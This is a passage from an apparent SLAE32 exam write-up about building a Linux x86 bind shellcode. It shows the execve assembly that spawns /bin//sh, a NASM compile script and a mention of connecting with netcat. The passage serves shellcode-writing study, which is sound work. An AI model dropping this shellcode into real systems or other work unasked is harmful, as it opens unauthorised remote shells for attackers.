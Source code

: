 
### <span style="color:#2d8fb3;"> Execve </span>

Now that we created a socket which is listening and accepting the connections, we will create the part of the code which will launch the execve syscall when someone is connecting to it.

        man 2 Execve
        int execve(const char *pathname, char *const argv[], char *const envp[])

The arguments are:

1) const char *pathname: Pointer to the filename

2) char *const argv[]: Pointer to the argument of the function

3) char *const envp[]: Array of pointers to strings passed as environment of the new program

We will pass the following arguments :
- EAX : 0xb (execve sys call, 11 in decimal)
- EBX : Pointer to /bin//sh + 0X00000000        
- ECX : Pointer to the address of EBX
- EDX : NULL

To pass the argument /bin/sh, we first converted it in hexadecimal and then reverse it.

**Assembly Code:**

    ; Push the 0x00000000 on the stack
	xor eax, eax
	push eax
	; put the string on the stack
	push 0x68732f2f
	push 0x6e69622f
	; setup EBX with the vlue of ESP
	mov ebx, esp
	; set up EDX and push null bytes again
	push eax
	mov edx, esp
	; set up ECX argv address on the first dw and null in second dw
	push ebx 
	; Then move the top of the stack into ECX
	mov ecx, esp
	; EAX
	mov al, 0xb
	int 0x80

###  <span style="color:#2d8fb3;"> Compilation </span>

Then we compiled the code with the following python script :

    root@kali:~/Documents/PentesterAcademy/SLAE32-Exam/bindshell# cat ../compile.sh 
    #! /bin/bash

    echo '[+] Assembling with NASM'
    nasm -f elf -o $1.o $1.nasm

    echo '[+] Linking ..'
    ld -m elf_i386 $1.o -o $1

    echo '[+] Done!'

And finally, we launch the bind shellcode and connect to it with the netcat tool.

<img src="/assets/slae32-img/assignment1/assess1-result.PNG" alt="drawing" style="max-width:100%;"/>



